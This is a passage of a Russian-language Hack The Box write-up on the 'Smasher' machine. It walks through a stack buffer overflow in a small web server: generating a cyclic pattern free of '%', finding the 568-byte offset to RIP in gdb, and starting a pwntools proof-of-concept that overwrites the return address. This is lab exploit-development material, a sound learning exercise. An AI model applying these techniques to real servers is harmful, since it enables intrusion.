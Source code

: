 Теперь важный момент: я не могу пользоваться циклическим паттерном де Брёйна, который предлагает PEDA, ведь он содержит символы `'%'` — а они, если помнишь, трактуются сервером как начало URL-кодировки.

![pattern-peda-percent.png]({{ "/img/htb/boxes/smasher/pattern-peda-percent.png" | relative_url }})

Следовательно, нам нужен другой генератор. Можно пользоваться `msf-pattern_create -l <N>` и `msf-pattern_offset -q <0xFFFF>`, чтобы создать последовательность нужной длины и найти смещение соответственно. Однако я предпочитаю модуль `pwntools`, который работает в разы быстрее.

![pattern-msf-pwntools.png]({{ "/img/htb/boxes/smasher/pattern-msf-pwntools.png" | relative_url }})

Как мы видим, ни один из инструментов не использует «плохие» символы, поэтому для генерации вредоносного URL можно юзать любой из них.

```
root@kali:~# curl localhost:1111/$(python -c 'import pwn; print pwn.cyclic(1000)')
File not found
```

Мы отправили запрос на открытие несуществующей страницы при помощи `curl` — а теперь смотрим, какое значение осело в регистре RSP, и рассчитываем величину смещения до RIP.

```
gdb-peda$ x/xw $rsp
0x7fffffffdf48: 0x66616172
root@kali:~# python -c 'from pwn import *; print cyclic_find(unhex("66616172")[::-1])'
568
```

Ответ: 568.

После выхода из отладчика хорошо бы принудительно убить все инстансы веб-сервера — ведь однозначно завершился только child-процесс.

```
root@kali:~# ps aux | grep tiny | awk '{print $2}' | xargs kill -9
```

### Proof-of-Concept

Давай проверим, что мы и правда можем перезаписать адрес возврата произвольным значением. Для этого напишем простой скрипт на Python, который откроет удаленный (в нашем случае локальный) сокет и отправит туда строку вида `GET /<ПЕЙЛОАД>`.

Несмотря на то, что разработка еще не перенесена в stable-ветку, я все же решился на эксперимент с pwntools для третьей версии Python.

Устанавливается он так.

```
$ apt install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
$ python3 -m pip install --upgrade git+https://github.com/Gallopsled/pwntools.git@dev3
```

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 poc.py [DEBUG]

from pwn import *

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64

payload = b''
payload += b'A' * 568
payload += p64(0xd34dc0d3)
```

[//]: # (2019-11-20)